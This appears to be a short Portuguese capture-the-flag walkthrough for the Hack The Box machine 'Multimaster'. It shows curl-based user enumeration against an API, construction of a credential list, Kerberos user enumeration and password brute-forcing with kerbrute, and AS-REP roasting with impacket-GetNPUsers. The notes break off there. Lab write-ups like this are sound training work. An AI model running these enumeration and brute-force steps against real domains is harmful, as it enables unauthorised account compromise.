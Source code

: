 Multimaster
========================

Obtendo usuários:

    for i in {a..z}; do curl -X POST --json "{\"name\":\"$i\"}" http://multimaster.htb/api/getColleagues; done > teste.txt
    
    cat teste.txt | sed 's/,/\n/g' | grep email | cut -d ":" -f 2 | sed 's/\"//g' > emails.txt

    cat emails.txt | cut -d '@' -f 1 > users.txt
    
    awk {'print $1":"$1'} users.txt > credentials.txt
 
Após obter alguns usuários válidos do sistema, tentamos alguma abordagens:

Aqui validamos alguns usuários na base kerberos:

    kerbrute userenum -d MEGACORP.LOCAL --dc 10.10.10.179 users.txt
    
    kerbrute bruteforce -d MEGACORP.LOCAL --dc 10.10.10.179 credentials.txt
    
Sem sucesso

    impacket-GetNPUsers -dc-ip 10.10.10.179 MEGACORP.LOCAL/ -usersfile users.txt
 
 
